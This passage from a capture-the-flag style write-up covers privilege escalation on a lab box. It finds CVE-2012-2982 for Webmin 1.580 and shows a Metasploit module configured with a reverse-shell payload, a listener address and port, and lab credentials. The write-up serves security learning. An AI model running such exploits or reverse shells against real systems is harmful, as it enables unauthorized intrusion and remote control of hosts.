![](/assets/img/2021-02-22_6-20-43.jpg)

**Note:** The first few times, I tried this I was not able to view this page. It turned out that I still have the proxy for Burpsuite enabled in the browser - lesson learned. 


Logging in with the credentials we found earlier, we are brought to a Webmin version 1.580 page.

![](/assets/2021-02-22_6-28-11.jpg)

## Escalation

Search the Exploit DB, we find [CVE-2012-2982](https://www.exploit-db.com/exploits/21851) which turns out to be a Metasploit exploit. 

**Note:** During this phase, we need to leaave the tunnel open. 

Firing up Metasploit, we can search for "CVE-2012-2982" and then use the resulting exploit. We then need to choose the payload of `cmd/unix/reverse` and enter the options. 


```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  videogamer124    yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    localhost        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME  agent47          yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.2.2.175       yes       The listen address (an interface may be specified)
   LPORT  9002             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580


msf6 exploit(unix/webapp/webmin_show_cgi_exec) > 

```
